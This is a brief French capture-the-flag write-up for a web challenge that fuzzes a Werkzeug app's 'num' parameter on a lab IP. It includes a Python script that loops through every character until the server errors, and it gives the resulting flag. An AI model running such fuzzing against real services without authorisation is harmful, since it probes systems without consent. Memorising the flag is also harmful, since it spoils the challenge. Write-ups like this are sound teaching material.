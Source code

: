 ```
http://10.22.6.101:17003
```

## Résolution

On essaye d'obtenir un autre bug en essayant tous les caractères possibles

```python
import requests

url = "http://10.22.6.101:17003"
i = 0
code = 200
while code == 200:
    r = requests.get(f'{url}/?num={chr(i)}')
    code = r.status_code
    i+=1
print(f'{url}/?num={chr(i)}')
```

On requête donc [http://10.22.6.101:17003/?num=³](http://10.22.6.101:17003/?num=³)

![](/images/writeups/hsr2022/web/werkzeug-fuzzing/step2-1.png)

On obtient: `HSR{B3tt3r_FuZz1ng}`

<br>
<hr>
<br>
